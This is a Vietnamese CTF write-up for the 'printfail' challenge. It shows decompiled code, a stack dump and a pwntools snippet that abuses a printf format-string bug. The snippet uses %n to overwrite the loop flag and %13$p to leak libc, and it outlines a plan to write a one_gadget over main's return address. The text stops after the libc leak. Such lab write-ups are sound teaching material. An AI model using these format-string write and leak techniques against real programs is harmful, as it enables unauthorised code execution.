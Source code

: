 # printfail

## IDA

```c
int __fastcall run_round(_DWORD *a1)
{
  memset(buf, 0, sizeof(buf));
  fflush(stdout);
  if ( !fgets(buf, 512, stdin) )
    return 0;
  *a1 = strlen(buf) <= 1;
  return printf(buf);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v5; // [rsp+8h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  puts("I'll let you make one printf call. You control the format string. No do-overs.");
  v4 = 1;
  while ( v4 )
  {
    if ( !(unsigned int)run_round(&v4) )
      return 0;
    if ( v4 )
      puts("...That was an empty string. Come on, you've at least gotta try!\nOkay, I'll give you another chance.");
  }
  return 0;
}
```

## Định hướng

Em được hint là ow giá trị v4 của while để ta có thể đưa nhiều payload của mình vào.
Đầu tiên em thấy khi nhập giá trị ở hàm fgets và kiểm tra stack, em thấy dữ liệu nhập vào không lưu trong stack:

```c
───────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x555555555259 → run_round()
[#1] 0x5555555552d0 → main()
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
0x007fffffffdc80│+0x0000: 0x007fffffffddc8  →  0x007fffffffe064  →  "/mnt/d/ctf/utctf/printfail"         ← $rsp
0x007fffffffdc88│+0x0008: 0x007fffffffdca4  →  0x6305730000000001
0x007fffffffdc90│+0x0010: 0x007fffffffdcb0  →  0x0000000000000001        ← $rbp
0x007fffffffdc98│+0x0018: 0x005555555552d0  →  <main+60> test eax, eax
0x007fffffffdca0│+0x0020: 0x0000000100001000
0x007fffffffdca8│+0x0028: 0x6890f61163057300
0x007fffffffdcb0│+0x0030: 0x0000000000000001
0x007fffffffdcb8│+0x0038: 0x007ffff7db5d90  →  <__libc_start_call_main+128> mov edi, eax
0x007fffffffdcc0│+0x0040: 0x0000000000000000
0x007fffffffdcc8│+0x0048: 0x00555555555294  →  <main+0> endbr64
```

Đến đây em khá bí và xin hint thì được hint là tìm cách thay đổi ret của hàm main là `c 0x007fffffffdcb8│+0x0038: 0x007ffff7db5d90  →  <__libc_start_call_main+128> mov edi, eax`
Em nghĩ là mình sẽ tìm địa chỉ stack nào đó có trỏ đến địa chỉ ret để thay đổi thành one_gadget.
Em tiếp tục tìm nhưng vẫn chưa thấy địa chỉ nào trỏ trực tiếp đến ret
Bí quá em xin hint và coi lại video 20 thì em thấy ở đây, có thể sử dụng để khai thác:

```c
0x007fffffffdc80│+0x0000: 0x007fffffffddc8  →  0x007fffffffe064  →  "/mnt/d/ctf/utctf/printfail" ,    ← $rsp  //here
0x007fffffffdc88│+0x0008: 0x007fffffffdca4  →  0x6305730000000001
0x007fffffffdc90│+0x0010: 0x007fffffffdcb0  →  0x0000000000000001        ← $rbp
```

thì các bước em khai thác như sau:

- dùng %n trỏ đến vị trí thứ 6, và ghi đè `0x007fffffffe064` thành `0x007fffffffdcb8` , khi đó tại `0x007fffffffddc8` ta có:

```c
0x007fffffffddc8 : 0x007fffffffdcb8  →  0x007ffff7db5d90  →  <__libc_start_call_main+128> mov edi, eax
```

- dùng %n trỏ đến vị trí thứ 43 đổi `0x007fffffffdcb8  →  0x007ffff7db5d90` thành one_gadget. okela

---

# Thực thi

### Bước 1: ta sẽ tính toán để thay đổi v4, nên là em sẽ ghi 8 vào vị trí thứ 7 là đã thay đổi giá trị v4  
![image](https://user-images.githubusercontent.com/111769169/224769758-d9f5f842-851b-479b-83e9-839ed89051a3.png)

### Bước 2: do file ko có hàm system nên ta sẽ phải leak libc.
Ta nên chọn vị trí 13 để leak vì nó là save rip của main và theo video 20 chú thích thì save rip nó tỉ lệ đúng hơn vì leak những thằng sau, khi chạy server nó là địa chỉ rác.

```python
    # %8c%7$n là để thoả điều kiện chạy loop để có thể input nhiều lần, nó đọc 8 kí tự từ %c và ghi vào
    r.sendlineafter(b"do-overs.\n", b"%8c%7$n %13$p")
    r.recvuntil(b"0x")
    leak = int(b"0x" + r.recvline(keepends=False), 16)
    libc.address = leak - 147587
    log.info("leak libc: " + hex(leak))
    log.info("leak base: " + hex(libc.address)) #leak libc tính địa chỉ base nè
```
